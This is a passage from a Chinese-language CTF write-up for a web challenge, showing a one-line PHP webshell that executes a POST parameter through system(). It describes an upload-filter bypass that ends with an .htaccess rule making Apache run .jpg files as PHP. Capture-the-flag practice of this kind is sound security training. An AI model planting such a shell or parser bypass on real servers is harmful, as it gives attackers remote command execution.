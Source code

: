 ```php
# webshell.php
<?php
highlight_file(__FILE__);
echo system($_POST['warma']);
```

利用 Burp 或 Fiddler 改包，修改 `Content-Type` 为 `image/jpeg` 后放行，但还是不成功。但是仅修改 `filename` 却可以，得知过滤机制为检测文件后缀名。

![give_me_your_photo_1](image/week5/web/give_me_your_photo_1.png)
![give_me_your_photo_2](image/week5/web/give_me_your_photo_2.png)

修改文件后缀为 `pht` `phtml` `pHp` 等都无法绕过，使用 Hex 再 `.php` 后面从插入 `%0A` 字符后![Uploading aes_decode.jpg… (5l6txkc49)]()也不管用。

![give_me_your_photo_3](image/week5/web/give_me_your_photo_3.png)

尝试利用解析绕过。

构造文件 `.htaccess`. 这将会使得 Apache 将 JPG 文件以 PHP 文件的方式解析：

```xml
<!-- .htaccess -->
<ifModule mime_module>
AddHandler php5-script .jpg
</ifModule>
```

上传成功！

我们不妨再上传一个 `bash.png` 内容如下：
